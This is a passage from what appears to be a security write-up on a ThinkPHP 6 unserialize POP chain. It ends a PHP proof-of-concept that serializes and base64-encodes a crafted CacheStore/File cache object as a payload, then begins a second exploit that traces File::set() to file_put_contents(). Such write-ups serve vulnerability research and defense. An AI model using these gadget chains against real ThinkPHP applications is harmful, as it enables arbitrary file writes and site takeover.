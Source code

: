 ```php
}

namespace {
	$file = new think\cache\driver\File();
	$cache = new think\filesystem\CacheStore($file);
	echo base64_encode(serialize($cache));
}
?>
```

#### POC chain flow chart

<img src="./images/tp6-pop-2-9.png" alt="">

### exp-2
> Continue to follow up on the `set()` method in `src/think/cache/driver/File.php`, and there is also a `file_put_contents()` method after the `serialize()` method
